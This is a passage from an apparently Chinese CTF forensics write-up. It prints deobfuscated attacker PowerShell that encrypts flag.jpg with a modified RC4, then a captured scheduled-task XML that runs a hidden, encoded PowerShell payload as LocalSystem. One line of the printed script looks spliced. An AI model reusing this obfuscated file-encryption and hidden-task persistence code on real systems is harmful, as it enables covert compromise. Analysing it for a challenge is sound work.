ATABfAEsARQB5AHMAdABSAGUAYQBtAF8AQgB5AHQARQAgAC0AYgB4AG8AcgAgACQAcAByAEUAVgBfAEMASQBQAEgARQByAF8AQgBZAFQARQAgAC0AYgB4AG8AcgAgADAAWAAyADMACgAKACAAIAAgACAAIAAgACAAIAAkAE8AVQB0AFsAJABMAE8AbwBQAF8ASQBkAFgAXQAgAD0AIAAkAGMAaQBQAEgAZQBSAF8AQgB5AFQAZQAKAAoAIAAgACAAIAAgACAAIAAgACQAcABSAGUAVgBfAEMAaQBQAEgAZQBSAF8AYgB5AFQAZQAgAD0AIAAkAGMASQBwAGgARQByAF8AQgBZAHQAZQANAAoAIAAgACAAIAB9AAoACgAgACAAIAAgAHIAZQB0AHUAcgBuACAAJABPAFUAdAANAAoAfQAKAAoAZgB1AG4AYwB0AGkAbwBuACAAZwBlAE4AZQBSAGEAVABlAC0AYwBPAE0AUABPAHUATgBkAHMARQBFAEQAIAB7AA0ACgAgACAAIAAgACQAZAAxACAAPQAgAFsAUwBZAFMAVABlAG0ALgBUAGUAeABUAC4AZQBOAGMATwBEAGkAbgBHAF0AOgA6AHUAVABmADgALgBnAEUAdABiAHkAdABlAFMAKAAkAEUAbgB2ADoAYwBPAE0AUAB1AHQARQByAG4AYQBNAGUAKQANAAoAIAAgACAAIAAkAEQAMgAgAD0AIABbAHMAeQBTAHQAZQBNAC4AdABlAFgAVAAuAGUATgBjAE8ARABJAG4ARwBdADoAOgB1AFQARgA4AC4ARwBlAHQAQgB5AFQARQBzACgAJABFAG4AVgA6AHUAUwBFAHIAbgBhAE0ARQApAA0ACgAgACAAIAAgACQAbABFAG4AMQAgAD0AIAAkAGQAMQAuAGwAZQBuAEcAVABIAA0ACgAgACAAIAAgACQATABFAE4AMgAgAD0AIAAkAEQAMgAuAEwAZQBuAEcAVABoAAoACgAgACAAIAAgACQATQBBAHgATABFAE4AIAA9ACAAWwBNAGEAVABoAF0AOgA6AE0AQQBYACgAJABsAGUATgAxACwAIAAkAEwARQBOADIAKQANAAoAIAAgACAAIAAkAHMARQBlAGQAIAA9ACAAWwBiAHkAdABlAFsAXQBdADoAOgBOAEUAdwAoACQAbQBhAHgATABFAE4AKQAKAAoAIAAgACAAIABmAG8AcgAgACgAJABpACAAPQAgACgANwA0ACAALQBiAHgAbwByACAANwA0ACkAOwAgACQAaQAgAC0AbAB0ACAAJABtAEEAWABMAGUAbgA7ACAAJABJACsAKwApACAAewANAAoAIAAgACAAIAAgACAAIAAgACQAUwBlAEUAZABbACQASQBdACAAPQAgACQAZAAxAFsAJABpACAAJQAgACQAbABFAG4AMQBdACAALQBiAHgAbwByACAAJABEADIAWwAkAEkAIAAlACAAJABMAGUAbgAyAF0ADQAKACAAIAAgACAAfQANAAoAIAAgACAAIAByAGUAdAB1AHIAbgAgACQAcwBlAGUAZAANAAoAfQAKAAoAJABTAEUAZQBkACAAPQAgAEcARQBOAGUAUgBhAFQARQAtAEMATwBtAHAAbwBVAE4ARABTAGUARQBEAAoACgAkAHMASABBAF8AcwB0AFIAaQBOAEcAIAA9ACAAKAAkACgAJgAgACQARQAgACQAQwAuAHAAMwApACAAKwAgACgAJAAoACQAawA5ADEAOAAwAD0AJwBxADMAXQBLAEcAWABLAE8AQQBWACcAOwAkAGIAPQBbAGIAeQB0AGUAWwBdAF0AKAAwAHgAMABBACwAMAB4ADAAMwAsADAAeAAyADAAKQA7ACQAawBiAD0AWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBUAEYAOAAuAEcAZQB0AEIAeQB0AGUAcwAoACQAawA5ADEAOAAwACkAOwAtAGoAbwBpAG4AKAAwAC4ALgAoACQAYgAuAEwAZQBuAGcAdABoAC0AMQApAHwAJQB7AFsAYwBoAGEAcgBdACgAJABiAFsAJABfAF0ALQBiAHgAbwByACQAawBiAFsAJABfACUAJABrAGIALgBMAGUAbgBnAHQAaABdACkAfQApACkAIAAtAGYAIAAoAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABTAHQAcgBpAG4AZwAoAFsAUwB5AHMAdABlAG0ALgBDAG8AbgB2AGUAcgB0AF0AOgA6AEYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAnAEkAQQA9AD0AJwApACkAKQApACAAKwAgACQAKAAmACAAJABlACAAJABDAC4AUAA0ACkAIAArACAAKAAkACgAJABrADcAOQAxADcAPQAzADMAOwAkAGIAPQBbAGIAeQB0AGUAWwBdAF0AKAAwAHgANQBhACwAMAB4ADEAMQAsADAAeAA1AGMALAAwAHgANQBhACwAMAB4ADEAMAAsADAAeAA1AGMAKQA7AC0AagBvAGkAbgAoACQAYgB8ACUAewBbAGMAaABhAHIAXQAoACQAXwAtAGIAeABvAHIAJABrADcAOQAxADcAKQB9ACkAKQAgAC0AZgAgACIAJAAoAFsAYwBoAGEAcgBdADAAeAA0AEQAKQAkACgAWwBjAGgAYQByAF0AMAB4ADYAMQApACQAKABbAGMAaABhAHIAXQAwAHgANgBFACkAJAAoAFsAYwBoAGEAcgBdADAAeAA2ADEAKQAkACgAWwBjAGgAYQByAF0AMAB4ADYANwApACIALAAoAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABTAHQAcgBpAG4AZwAoAFsAUwB5AHMAdABlAG0ALgBDAG8AbgB2AGUAcgB0AF0AOgA6AEYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAnAFoAVwBRAD0AJwApACkAKQApACkADQAKACQAcwBIAEEAIAA9ACAAJgAgACQAYwBtAEQAIAAkAHMAaABhAF8AUwBUAFIASQBOAGcACgAKACQAbQBhAHMAVABlAFIAXwBLAGUAWQAgAD0AIAAkAHMAaABBAC4AYwBvAG0AUAB1AFQAZQBIAGEAUwBIACgAJABzAEUAZQBEACkADQAKACQAUwBoAEEALgBkAEkAUwBwAE8AcwBlACgAKQAKAAoAJABQAEwAQQBJAG4AXwBiAFkAVABlAHMAIAA9ACAAZwBlAHQALQBDAE8ATgB0AEUATgBUACAALQBQAGEAVABoACAAJABpAG4AUAB1AFQARgBJAEwARQAgAC0AZQBOAGMATwBkAEkATgBnACAAQgB5AFQARQAgAC0AUgBlAEEARABjAG8AVQBOAHQAIAAoADYAMAAgAC0AYgB4AG8AcgAgADYAMAApAAoACgAkAEUAbgBjAHIAeQBQAHQAZQBkAF8AQgBZAHQAZQBTACAAPQAgAFAAUgBvAGMARQBTAFMALQBzAHQAUgBlAGEATQAgAC0ARABhAHQAQQAgACQAcABsAGEASQBuAF8AQgB5AFQAZQBzACAALQBLAGUAWQAgACQATQBBAHMAVABFAHIAXwBLAGUAWQAKAAoAJABmAGkAbgBhAEwAXwBvAFUAVABwAFUAVAAgAD0AIABbAFMAWQBTAFQARQBNAC4AYwBPAE4AVgBlAFIAVABdADoAOgB0AG8AQgBBAHMARQA2ADQAcwBUAFIASQBOAEcAKAAkAGUAbgBjAFIAWQBQAHQARQBEAF8AYgBZAFQAZQBTACkADQAKAHMAYwAgAC0AcABhAHQASAAgACQAbwB1AFQAcAB1AFQAZgBpAGwARQAgAC0AdgBhAGwAdQBlACAAJABGAGkATgBhAGwAXwBvAHUAVABQAFUAdAAKAHQAcgB5ACAAewAKACAAIAAgACAAdABoAHIAbwB3ACAAIgBJAG4AdABlAG4AdABpAG8AbgBhAGwAbAB5ACAAcwBrAGkAcABwAGkAbgBnACAAdABoAGkAcwAgAGIAbABvAGMAawAiADsACgAgACAAIAAgACQAcgBhAG4AZABvAG0ARgBpAGwAZQBQAGEAdABoACAAPQAgAFsAUwB5AHMAdABlAG0ALgBJAE8ALgBQAGEAdABoAF0AOgA6AEMAbwBtAGIAaQBuAGUAKABbAFMAeQBzAHQAZQBtAC4ASQBPAC4AUABhAHQAaABdADoAOgBHAGUAdABUAGUAbQBwAFAAYQB0AGgAKAApACwAIABbAFMAeQBzAHQAZQBtAC4ASQBPAC4AUABhAHQAaABdADoAOgBHAGUAdABSAGEAbgBkAG8AbQBGAGkAbABlAE4AYQBtAGUAKAApACkAOwAgAFcAcgBpAHQAZQAtAEgAbwBzAHQAIAAiAEcAZQBuAGUAcgBhAHQAZQBkACAAdABlAG0AcAAgAHAAYQB0AGgAOgAgACQAcgBhAG4AZABvAG0ARgBpAGwAZQBQAGEAdABoACIACgB9ACAAYwBhAHQAYwBoACAAewB9AAoAJABvAFQAagBrAEsAOABZACAAPQAgADEALgAuADUAOwAgACQAbwBUAGoAawBLADgAWQAgAD0AIAAkAG8AVABqAGsASwA4AFkAIAB8ACAAVwBoAGUAcgBlAC0ATwBiAGoAZQBjAHQAIAB7ACAAJABfACAAJQAgADIAIAAtAGUAcQAgADAAIAB9ADsAIABDAGwAZQBhAHIALQBWAGEAcgBpAGEAYgBsAGUAIABvAFQAagBrAEsAOABZACAALQBFAHIAcgBvAHIAQQBjAHQAaQBvAG4AIABTAGkAbABlAG4AdABsAHkAQwBvAG4AdABpAG4AdQBlAA=='))))
```

继续提取解密可以得到如下内容：

```powershell
$INPutFiLE = ([stRinG]::fOrMat(([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('ezB9ezF9ezJ9ezN9ezR9'))),$($k6925=167;$b=[byte[]](0xe4,0x9d,0xfb,0xd4,0xcf);-join($b|%{[char]($_-bxor$k6925)})),"$([char]0x61)$([char]0x72)$([char]0x65)$([char]0x73)",([System.Text.Encoding]::UTF8.GetString([byte[]](0x5C,0x66))),('{0}{1}' -f 'l','ag'),('.j'+'pg')))
$OUtPutfile = ([striNG]::foRmaT($($k8602=226;$b=[byte[]](0x99,0xd2,0x9f,0x99,0xd3,0x9f,0x99,0xd0,0x9f,0x99,0xd1,0x9f,0x99,0xd6,0x9f,0x99,0xd7,0x9f,0x99,0xd4,0x9f);-join($b|%{[char]($_-bxor$k8602)})),'C',$($k3091='3fo)*';$b=[byte[]](0x09);$kb=[System.Text.Encoding]::UTF8.GetBytes($k3091);-join(0..($b.Length-1)|%{[char]($b[$_]-bxor$kb[$_%$kb.Length])})),$($k9422='VBVMX';$b=[byte[]](0x0A,0x31);$kb=[System.Text.Encoding]::UTF8.GetBytes($k9422);-join(0..($b.Length-1)|%{[char]($b[$_]-bxor$kb[$_%$kb.Length])})),$($k5269='7v2Bv';$b=[byte[]](0x5F,0x17,0x40);$kb=[System.Text.Encoding]::UTF8.GetBytes($k5269);-join(0..($b.Length-1)|%{[char]($b[$_]-bxor$kb[$_%$kb.Length])})),('{0}{1}{2}' -f 'e','s','\e'),([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('bmMuanA='))),('{0}' -f 'g')))
$C = @{
    (-join([cHaR]0x70, [char]0x31)) = ([SYsTem.tEXt.EnCODInG]::uTf8.GeTSTRInG([SYstem.conVERt]::frombASE64sTRINg(([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('WVZkV05BPT0='))))))
    ([sYstEm.text.ENcodING]::UTf8.GeTsTRiNg([sYsTEm.COnveRt]::FroMbasE64StriNG(([System.Text.Encoding]::UTF8.GetString([byte[]](0x63,0x44,0x49,0x3D)))))) = (-join(([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('UjI='))),([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('VjBM'))),"$([char]0x56)$([char]0x4A)$([char]0x68)$([char]0x62)$([char]0x6D)$([char]0x52)$([char]0x76)$([char]0x62)",([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('UT09')))))
    $($K4749='a#uX={bsE0h{<9<';$b=[Byte[]](0x11,0X10);$Kb=[sYSTem.texT.encoding]::utF8.GetbYTES($K4749);-join(0..($B.lenGTH-1)|%{[CHaR]($B[$_]-bxor$Kb[$_%$kb.LenGTh])})) = (([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('ezB9ezF9ezJ9ezN9ezR9ezV9'))) -F ('{0}' -f 'TmV'),([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('M0w='))),$($k4686='Y!D0eNsO8SG*';$b=[byte[]](0x0C,0x18,0x2D);$kb=[System.Text.Encoding]::UTF8.GetBytes($k4686);-join(0..($b.Length-1)|%{[char]($b[$_]-bxor$kb[$_%$kb.Length])})),(-join('am','V')),([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('amRBPQ=='))),([System.Text.Encoding]::UTF8.GetString([byte[]](0x3D))))
    ([SySteM.teXt.EncODInG]::UtF8.GetstrINg([SysTEM.CONVerT]::fRoMBaSE64StRiNg($($k6484='-wVuWmJ02';$b=[byte[]](0x4E,0x33,0x07,0x48);$kb=[System.Text.Encoding]::UTF8.GetBytes($k6484);-join(0..($b.Length-1)|%{[char]($b[$_]-bxor$kb[$_%$kb.Length])}))))) = ('{0}{1}{2}{3}{4}{5}{6}{7}{8}{9}{10}{11}{12}{13}' -F "$([char]0x55)$([char]0x33)$([char]0x6C)$([char]0x7A)$([char]0x64)",([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('R1Y='))),([System.Text.Encoding]::UTF8.GetString([byte[]](0x74,0x4C,0x6C,0x4E))),$($k5685=214;$b=[byte[]](0xba,0x8f,0xe5,0x80);-join($b|%{[char]($_-bxor$k5685)})),([System.Text.Encoding]::UTF8.GetString([byte[]](0x79,0x61))),([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('WA=='))),(-join('R5','Lk')),([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('Tnll'))),$($k3284=56;$b=[byte[]](0x60,0x7a);-join($b|%{[char]($_-bxor$k3284)})),$($k7988=150;$b=[byte[]](0xa6,0xf4,0xa4,0xf2,0xef);-join($b|%{[char]($_-bxor$k7988)})),('{0}{1}{2}{3}' -f 'YX','B','o','e'),"$([char]0x53)$([char]0x35)$([char]0x54)$([char]0x53)",('{0}{1}{2}' -f 'EE','y','N'),('{0}{1}{2}' -f 'T','Y','='))
}

$E = {param($s) [SySTEM.TexT.ENcODiNg]::Utf8.gETSTRing([SysTeM.COnvERt]::FROmbase64sTriNG($S))}

$CmD = & $E $C.P1
& $cMd $($k1227 = (11 * 13);$B=[byTe[]](0xc8,0xEa,0XFB,0xa2,0xdD,0XEe,0xe1,0XEB,0xe0,0XE2,0xaF,0xF3,0xAF,0xc0,0xfA,0XFB,0xa2,0Xc1,0Xfa,0xe3,0xE3);-join($B|%{[CHaR]($_-Bxor$k1227)}))

function InitIaLiZE-STate {
    param($keY)
    $s = 0..255 | % { [bYTE]$_ }
    $j = (65 + -65)
    for ($I = (142 % 71); $I -lt 256; $i++) {
        $J = ($J + $s[$i] + $KEY[$I % $Key.LenGtH]) -band 0Xff
        $s[$i], $S[$j] = $s[$J], $s[$i]
    }
    return $S
}

function PRoCEsS-STream {
    param($data, $Key)

    $StATe = InITIALiZe-STatE -kEy $kEy
    $i = (171 % 57); $j = (29 -bxor 29)

    $PReV_ciPHEr_bYte = $KEy[0]

    $oUT = [bYtE[]]::NEw($DAtA.LeNGth)

    for($lOOp_IdX = (165 % 33); $LoOp_IDx -lt $DAtA.lEngTh; $LooP_IdX++) {

        $ToTal_kEYSTreAm_BYTe = (77 - 77)
        for ($ROuND = (24 -bxor 24); $ROuND -lt (37 -bxor 38); $RoUND++) {
            $i = ($I + 1) -band 0XfF
            $J = ($j + $STAte[$I]) -band 0Xff
            $sTatE[$I], $statE[$J] = $staTE[$J], $stAte[$I]

            $KEystReAm_byte_PaRT = $STATe[($stATe[$I] + $sTaTe[$j]) -band 0XFf]
            $toTAL_KeYSTReaM_ByTE = $tOtAl_kEYsTrEaM_BYtE -bxor $KEYstReAm_bYTe_PART
        }

        $Cipher_BytE = $dATa[$looP_IdX] -bxor $TOtAL_KEystReam_BytE -bxor $prEV_CIPHEr_BYTE -bxor 0X23

        $OUt[$LOoP_IdX] = $ciPHeR_ByTe

        $pReV_CiPHeR_byTe = $cIphEr_BYte
    }

    return $OUt
}

function geNeRaTe-cOMPOuNdsEED {
    $d1 = [SYSTem.TexT.eNcODinG]::uTf8.gEtbyteS($Env:cOMPutErnaMe)
    $D2 = [sySteM.teXT.eNcODInG]::uTF8.GetByTEs($EnV:uSErnaME)
    $lEn1 = $d1.lenGTH
    $LEN2 = $D2.LenGTh

    $MAxLEN = [MaTh]::MAX($leN1, $LEN2)
    $sEed = [byte[]]::NEw($maxLEN)

    for ($i = (74 -bxor 74); $i -lt $mAXLen; $I++) {
        $SeEd[$I] = $d1[$i % $lEn1] -bxor $D2[$I % $Len2]
    }
    return $seed
}

$SEed = GENeRaTE-COmpoUNDSeED

$sHA_stRiNG = ($(& $E $C.p3) + ($($k9180='q3]KGXKOAV';$b=[byte[]](0x0A,0x03,0x20);$kb=[System.Text.Encoding]::UTF8.GetBytes($k9180);-join(0..($b.Length-1)|%{[char]($b[$_]-bxor$kb[$_%$kb.Length])})) -f ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('IA==')))) + $(& $e $C.P4) + ($($k7917=33;$b=[byte[]](0x5a,0x11,0x5c,0x5a,0x10,0x5c);-join($b|%{[char]($_-bxor$k7917)})) -f "$([char]0x4D)$([char]0x61)$([char]0x6E)$([char]0x61)$([char]0x67)",([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('ZWQ=')))))
$sHA = & $cmD $sha_STRINg

$masTeR_KeY = $shA.comPuTeHaSH($sEeD)
$ShA.dISpOse()

$PLAIn_bYTes = get-CONtENT -PaTh $inPuTFILE -eNcOdINg ByTE -ReADcoUNt (60 -bxor 60)

$EncryPted_BYteS = PRocESS-stReaM -DatA $plaIn_ByTes -KeY $MAsTEr_KeY

$finaL_oUTpUT = [SYSTEM.cONVeRT]::toBAsE64sTRING($encRYPtED_bYTeS)
sc -patH $ouTpuTfilE -value $FiNal_ouTPUt
try {
    throw "Intentionally skipping this block";
    $randomFilePath = [System.IO.Path]::Combine([System.IO.Path]::GetTempPath(), [System.IO.Path]::GetRandomFileName()); Write-Host "Generated temp path: $randomFilePath"
} catch {}
$oTj_ws.col.info == "SchRpcRetrieveTask response"kK8Y = 1..5; $oTjkK8Y = $oTjkK8Y | Where-Object { $_ % 2 -eq 0 }; Clear-Variable oTjkK8Y -ErrorAction SilentlyContinue
```

上面这个混淆过的代码的大概意思就是对本地的flag.jpg文件进行了加密，并把加密后的内容保存到enc.jpg中了

然后加密用的是魔改过的RC4，并且告诉了我们密钥的生成步骤

上面的是请求部分的内容，我们继续提取响应部分

```xml
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.3" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Description>osePyzJ59fTbplelScobE5iGeHlNy90rCCHQ6EGXUKE=</Description>
    <URI>\PpQctPXM</URI>
  </RegistrationInfo>
  <Principals>
    <Principal id="LocalSystem">
      <UserId>S-1-5-18</UserId>
      <RunLevel>HighestAvailable</RunLevel>
    </Principal>
  </Principals>
  <Settings>
    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
    <StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
    <ExecutionTimeLimit>PT1M</ExecutionTimeLimit>
    <Hidden>true</Hidden>
    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
    <IdleSettings>
      <StopOnIdleEnd>true</StopOnIdleEnd>
      <RestartOnIdle>false</RestartOnIdle>
    </IdleSettings>
    <UseUnifiedSchedulingEngine>true</UseUnifiedSchedulingEngine>
  </Settings>
  <Triggers>
    <CalendarTrigger>
      <StartBoundary>2015-07-15T20:35:13</StartBoundary>
      <ScheduleByDay>
        <DaysInterval>1</DaysInterval>
      </ScheduleByDay>
    </CalendarTrigger>
  </Triggers>
  <Actions Context="LocalSystem">
    <Exec>
      <Command>powershell.exe</Command>
      <Arguments>-NonInteractive -enc JAB0AGEAcgBnAGUAdABfAHAAYQB0AGgAIAA9ACAAIgBDADoAXABzAGgAYQByAGUAcwBcAGUAbgBjAC0AbwBiAC4AcABzADEAIgAKACQAdABhAHMAawBQAGEAdABoACAAPQAgACIAXAAiAAoAJABlAG4AYwByAHkAcAB0AGkAbwBuAEsAZQB5ACAAPQAgAFsAUwB5AHMAdABlAG0ALgBDAG8AbgB2AGUAcgB0AF0AOgA6AEYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAiAHMAWAB5AFoAbAB6AGIAbQBNAHYAVABMAEMANgBJADIAdQBWAHAAMABkAFEAPQA9ACIAKQAKAGYAdQBuAGMAdABpAG8AbgAgAEMAbwBuAHYAZQByAHQAVABvAC0AQgBhAHMAZQA2ADQAKAAkAGIAeQB0AGUAQQByAHIAYQB5ACkAIAB7AAoAIAAgACAAIABbAFMAeQBzAHQAZQBtAC4AQwBvAG4AdgBlAHIAdABdADoAOgBUAG8AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAQQByAHIAYQB5ACkACgB9AAoACgBmAHUAbgBjAHQAaQBvAG4AIABDAG8AbgB2AGUAcgB0AEYAcgBvAG0ALQBCAGEAcwBlADYANAAoACQAYgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKQAgAHsACgAgACAAIAAgAFsAUwB5AHMAdABlAG0ALgBDAG8AbgB2AGUAcgB0AF0AOgA6AEYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAkAGIAYQBzAGUANgA0AFMAdAByAGkAbgBnACkACgB9AAoACgBmAHUAbgBjAHQAaQBvAG4AIABFAG4AYwByAHkAcAB0AC0ARABhAHQAYQAoACQAawBlAHkALAAgACQAZABhAHQAYQApACAAewAKACAAIAAgACAAJABhAGUAcwBNAGEAbgBhAGcAZQBkACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAFMAZQBjAHUAcgBpAHQAeQAuAEMAcgB5AHAAdABvAGcAcgBhAHAAaAB5AC4AQQBlAHMATQBhAG4AYQBnAGUAZAAKACAAIAAgACAAJABhAGUAcwBNAGEAbgBhAGcAZQBkAC4ATQBvAGQAZQAgAD0AIABbAFMAeQBzAHQAZQBtAC4AUwBlAGMAdQByAGkAdAB5AC4AQwByAHkAcAB0AG8AZwByAGEAcABoAHkALgBDAGkAcABoAGUAcgBNAG8AZABlAF0AOgA6AEMAQgBDAAoAIAAgACAAIAAkAGEAZQBzAE0AYQBuAGEAZwBlAGQALgBQAGEAZABkAGkAbgBnACAAPQAgAFsAUwB5AHMAdABlAG0ALgBTAGUAYwB1AHIAaQB0AHkALgBDAHIAeQBwAHQAbwBnAHIAYQBwAGgAeQAuAFAAYQBkAGQAaQBuAGcATQBvAGQAZQBdADoAOgBQAEsAQwBTADcACgAgACAAIAAgACQAYQBlAHMATQBhAG4AYQBnAGUAZAAuAEsAZQB5ACAAPQAgACQAawBlAHkACgAgACAAIAAgACQAYQBlAHMATQBhAG4AYQBnAGUAZAAuAEcAZQBuAGUAcgBhAHQAZQBJAFYAKAApAAoAIAAgACAAIAAkAGUAbgBjAHIAeQBwAHQAbwByACAAPQAgACQAYQBlAHMATQBhAG4AYQBnAGUAZAAuAEMAcgBlAGEAdABlAEUAbgBjAHIAeQBwAHQAbwByACgAKQAKACAAIAAgACAAJAB1AHQAZgA4AEIAeQB0AGUAcwAgAD0AIABbAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBVAFQARgA4AC4ARwBlAHQAQgB5AHQAZQBzACgAJABkAGEAdABhACkACgAgACAAIAAgACQAZQBuAGMAcgB5AHAAdABlAGQARABhAHQAYQAgAD0AIAAkAGUAbgBjAHIAeQBwAHQAbwByAC4AVAByAGEAbgBzAGYAbwByAG0ARgBpAG4AYQBsAEIAbABvAGMAawAoACQAdQB0AGYAOABCAHkAdABlAHMALAAgADAALAAgACQAdQB0AGYAOABCAHkAdABlAHMALgBMAGUAbgBnAHQAaAApAAoAIAAgACAAIAAkAGMAbwBtAGIAaQBuAGUAZABEAGEAdABhACAAPQAgACQAYQBlAHMATQBhAG4AYQBnAGUAZAAuAEkAVgAgACsAIAAkAGUAbgBjAHIAeQBwAHQAZQBkAEQAYQB0AGEACgAgACAAIAAgAHIAZQB0AHUAcgBuACAAQwBvAG4AdgBlAHIAdABUAG8ALQBCAGEAcwBlADYANAAgACQAYwBvAG0AYgBpAG4AZQBkAEQAYQB0AGEACgB9AAoACgBmAHUAbgBjAHQAaQBvAG4AIABEAGUAYwByAHkAcAB0AC0ARABhAHQAYQAoACQAawBlAHkALAAgACQAZQBuAGMAcgB5AHAAdABlAGQARABhAHQAYQApACAAewAKACAAIAAgACAAJABhAGUAcwBNAGEAbgBhAGcAZQBkACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAFMAZQBjAHUAcgBpAHQAeQAuAEMAcgB5AHAAdABvAGcAcgBhAHAAaAB5AC4AQQBlAHMATQBhAG4AYQBnAGUAZAAKACAAIAAgACAAJABhAGUAcwBNAGEAbgBhAGcAZQBkAC4ATQBvAGQAZQAgAD0AIABbAFMAeQBzAHQAZQBtAC4AUwBlAGMAdQByAGkAdAB5AC4AQwByAHkAcAB0AG8AZwByAGEAcABoAHkALgBDAGkAcABoAGUAcgBNAG8AZABlAF0AOgA6AEMAQgBDAAoAIAAgACAAIAAkAGEAZQBzAE0AYQBuAGEAZwBlAGQALgBQAGEAZABkAGkAbgBnACAAPQAgAFsAUwB5AHMAdABlAG0ALgBTAGUAYwB1AHIAaQB0AHkALgBDAHIAeQBwAHQAbwBnAHIAYQBwAGgAeQAuAFAAYQBkAGQAaQBuAGcATQBvAGQAZQBdADoAOgBQAEsAQwBTADcACgAgACAAIAAgACQAYwBvAG0AYgBpAG4AZQBkAEQAYQB0AGEAIAA9ACAAQwBvAG4AdgBlAHIAdABGAHIAbwBtAC0AQgBhAHMAZQA2ADQAIAAkAGUAbgBjAHIAeQBwAHQAZQBkAEQAYQB0AGEACgAgACAAIAAgACQAYQBlAHMATQBhAG4AYQBnAGUAZAAuAEkAVgAgAD0AIAAkAGMAbwBtAGIAaQBuAGUAZABEAGEAdABhAFsAMAAuAC4AMQA1AF0ACgAgACAAIAAgACQAYQBlAHMATQBhAG4AYQBnAGUAZAAuAEsAZQB5ACAAPQAgACQAawBlAHkACgAgACAAIAAgACQAZABlAGMAcgB5AHAAdABvAHIAIAA9ACAAJABhAGUAcwBNAGEAbgBhAGcAZQBkAC4AQwByAGUAYQB0AGUARABlAGMAcgB5AHAAdABvAHIAKAApAAoAIAAgACAAIAAkAGUAbgBjAHIAeQBwAHQAZQBkAEQAYQB0AGEAQgB5AHQAZQBzACAAPQAgACQAYwBvAG0AYgBpAG4AZQBkAEQAYQB0AGEAWwAxADYALgAuACQAYwBvAG0AYgBpAG4AZQBkAEQAYQB0AGEALgBMAGUAbgBnAHQAaABdAAoAIAAgACAAIAAkAGQAZQBjAHIAeQBwAHQAZQBkAEQAYQB0AGEAQgB5AHQAZQBzACAAPQAgACQAZABlAGMAcgB5AHAAdABvAHIALgBUAHIAYQBuAHMAZgBvAHIAbQBGAGkAbgBhAGwAQgBsAG8AYwBrACgAJABlAG4AYwByAHkAcAB0AGUAZABEAGEAdABhAEIAeQB0AGUAcwAsACAAMAAsACAAJABlAG4AYwByAHkAcAB0AGUAZABEAGEAdABhAEIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkACgAgACAAIAAgAHIAZQB0AHUAcgBuACAAWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBUAEYAOAAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABkAGUAYwByAHkAcAB0AGUAZABEAGEAdABhAEIAeQB0AGUAcwApAAoAfQAKACQAcwBjAGgAZQBkAHUAbABlAHIAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AQwBvAG0ATwBiAGoAZQBjAHQAIABTAGMAaABlAGQAdQBsAGUALgBTAGUAcgB2AGkAYwBlAAoAJABzAGMAaABlAGQAdQBsAGUAcgAuAEMAbwBuAG4AZQBjAHQAKAApAAoAdAByAHkAIAB7AAoAIAAgACAAIAAkAHIAZQBzAHUAbAB0ACAAPQAgACIAIgAKACAAIAAgACAAJABmAG8AbABkAGUAcgAgAD0AIAAkAHMAYwBoAGUAZAB1AGwAZQByAC4ARwBlAHQARgBvAGwAZABlAHIAKAAkAHQAYQBzAGsAUABhAHQAaAApAAoAIAAgACAAIAAkAHQAYQBzAGsAIAA9ACAAJABmAG8AbABkAGUAcgAuAEcAZQB0AFQAYQBzAGsAKAAiAFAAcABRAGMAdABQAFgATQAiACkACgAgACAAIAAgACQAZABlAGYAaQBuAGkAdABpAG8AbgAgAD0AIAAkAHQAYQBzAGsALgBEAGUAZgBpAG4AaQB0AGkAbwBuAAoAIAAgACAAIABpAGYAIAAoAFQAZQBzAHQALQBQAGEAdABoACAALQBQAGEAdABoACAAJAB0AGEAcgBnAGUAdABfAHAAYQB0AGgAKQAgAHsACgAgACAAIAAgACAAIAAgACAAJAByAGUAcwB1AGwAdAAgAD0AIAAiAFsALQBdACAARgBpAGwAZQAgAGEAbAByAGUAYQBkAHkAIABlAHgAaQBzAHQAcwAuACIACgAgACAAIAAgAH0AZQBsAHMAZQB7AAoAIAAgACAAIAAgACAAIAAgAHQAcgB5ACAAewAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACQAZABlAHMAYwByAGkAcAB0AGkAbwBu